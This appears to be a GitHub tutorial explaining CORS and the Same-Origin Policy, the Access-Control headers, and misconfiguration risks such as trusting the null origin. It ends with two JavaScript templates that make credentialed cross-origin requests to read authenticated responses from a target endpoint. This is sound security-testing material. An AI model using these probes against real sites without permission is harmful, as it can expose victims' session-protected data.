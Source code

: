## Cross-Origin Resource Sharing (CORS) – Overview

**Cross-Origin Resource Sharing (CORS)** is a security mechanism implemented by browsers to control how web applications from one origin can interact with resources on a different origin using specific HTTP headers.

---

### Same-Origin Policy (SOP)

The **Same-Origin Policy (SOP)** is a fundamental security concept in browsers that restricts how documents or scripts loaded from one origin can interact with resources from another origin.

* SOP **prevents reading** between different origins, not writing.
* An **origin** is defined by the combination of:

  * **Scheme** (protocol, e.g., `http`, `https`)
  * **Hostname** (e.g., `example.com`)
  * **Port** (e.g., `:8080`)


 ![image](https://github.com/user-attachments/assets/ff7455cc-1eaa-4c14-a6e3-a9529610606f)


![image](https://github.com/user-attachments/assets/9362be74-251b-4d0b-be3b-16ed1996ebcc)


![image](https://github.com/user-attachments/assets/9cca44e8-c5eb-4b4d-b04d-847990f3c9c3)

---

### Key CORS Headers

#### Access-Control-Allow-Origin

This header specifies which origins are permitted to access the resource.

* **Specific origin**: For example, `https://example.com`
* **Wildcard (`*`)**: Allows all origins, but cannot be used when credentials are involved.
* **`null`**: A special value representing requests originating from:

  * Sandboxed documents (e.g., `<iframe sandbox>`)
  * Files loaded via the `file://` scheme
  * Some browser extensions or data URLs

> Misconfigured servers that trust `null` as an origin may become vulnerable to attacks originating from these restricted contexts.


  ![image](https://github.com/user-attachments/assets/44759b14-83ef-4ae9-be14-6fd14c52f0c5)

   
   ![image](https://github.com/user-attachments/assets/4d621179-0efb-42ad-91fd-f7e400848d25)



#### Access-Control-Allow-Credentials

This header indicates whether the response to the request can be exposed when the request’s credentials mode is `include`.

* Accepts the value `true` or `false`.
* If set to `true`, the `Access-Control-Allow-Origin` header **must specify an explicit origin**, not a wildcard (`*`).

![image](https://github.com/user-attachments/assets/9f85f383-5576-4cd8-b6a7-bc8353915252)

> ⚠️ **Important:** `Access-Control-Allow-Origin: *` **cannot be used with** `Access-Control-Allow-Credentials: true` — browsers will block it.

![image](https://github.com/user-attachments/assets/1c2ee5db-60b9-406f-abab-b78d310b7a32)

---

### CORS Misconfiguration Risks

Misconfigurations in CORS can lead to serious security issues such as:

* **Unauthorized Data Access**: Sensitive data exposed to malicious third-party websites.
* **Credential Theft**: Access to protected endpoints using victim session cookies.
* **Cross-Site Scripting (XSS)**: When combined with reflection or parsing issues.
* **Exploitation via `null` origin**: If a server incorrectly trusts `null`, it may be exploitable from local or sandboxed environments.

---

## JavaScript Templates to Test for CORS Vulnerabilities

These templates can be used in a browser console to test whether a cross-origin endpoint is accessible and leaks sensitive information.

### Method 1

```javascript
var req = new XMLHttpRequest();
req.onload = function () {
    alert(this.responseText);
};
req.open('GET', 'https://target-site.com/endpoint', true);
req.withCredentials = true;
req.send(null);
```

### Method 2

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        alert(xhr.responseText);
    }
};
xhr.open('GET', 'http://targetapp/api/v1/user', true);
xhr.withCredentials = true;
xhr.send(null);
```

> These scripts attempt to retrieve sensitive information from the target site using the victim’s authenticated session.

---

## References

* [Exploiting CORS Misconfigurations for Bitcoins and Bounties – by James Kettle (PortSwigger)](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

---


